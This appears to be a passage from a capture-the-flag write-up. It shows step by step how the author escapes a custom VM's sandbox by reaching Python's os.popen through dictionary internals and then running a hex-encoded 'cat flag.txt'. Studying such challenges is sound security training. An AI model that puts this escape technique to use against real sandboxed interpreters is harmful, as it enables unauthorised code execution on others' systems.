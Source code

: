 After getting the OS library list we need to get all it's methods as as list

(by default it's dictionary and calling values on dictionary gives us an object of dict_values so that is why we got access to list method in first step and stored it under register C)

```
MOV E B
DEL A
CALL C
```

Then we need to access popen method and call `cat flag.txt`

```
LD A 316
DEL B
IDX E E
LD A 0x63617420666c61672e747874
STDOUT A
DEL B
CALL E
PROP read E
DEL A
DEL B
CALL E
STDOUT E
```

Our malware code is ready and ran perfectly on localhost
![output of local](output-local.png)
